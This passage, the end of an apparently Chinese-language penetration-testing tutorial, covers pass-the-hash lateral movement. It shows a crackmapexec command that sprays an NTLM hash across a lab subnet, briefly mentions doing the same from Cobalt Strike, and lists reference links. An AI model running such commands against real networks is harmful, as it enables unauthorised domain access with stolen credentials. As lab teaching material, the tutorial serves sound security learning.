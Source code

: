 ![](https://pic1.zhimg.com/v2-7d49e8b2cfb36c69e2e0b78d34a6e110_r.jpg)

使用批量传递 hash 的命令：

```
crackmapexec smb 172.16.0.100/24 -u testuser -H de26cce0356891a4a020e7c4957afc72 -d hack.lab

```

> 因为我这个是域管理账户，所以都能登录，(Pwn3d! 代表用户名和 hash 正确)  

如下图：

![](https://pic4.zhimg.com/v2-ba324671c3af898afa2d0b9db1ece8a3_r.jpg)

### Cobalt Strike

cs 大家应该很熟悉了，这块我没搭环境，主要是在目标 (target) 当中选中目标右键选择要 pth 的方式即可。

0x03 参考
-------

[https://xz.aliyun.com/t/9309](https://link.zhihu.com/?target=https%3A//xz.aliyun.com/t/9309)

[http://drops.xmd5.com/static/drops/tips-11631.html](https://link.zhihu.com/?target=http%3A//drops.xmd5.com/static/drops/tips-11631.html)

[https://www.anquanke.com/post/id/193150](https://link.zhihu.com/?target=https%3A//www.anquanke.com/post/id/193150)

[https://xz.aliyun.com/t/8117](https://link.zhihu.com/?target=https%3A//xz.aliyun.com/t/8117)

[https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0](https://link.zhihu.com/?target=https%3A//3gstudent.github.io/%25E5%259F%259F%25E6%25B8%2597%25E9%2580%258F-Pass-The-Hash%25E7%259A%2584%25E5%25AE%259E%25E7%258E%25B0)

[https://www.anquanke.com/post/id/193149](https://link.zhihu.com/?target=https%3A//www.anquanke.com/post/id/193149)

...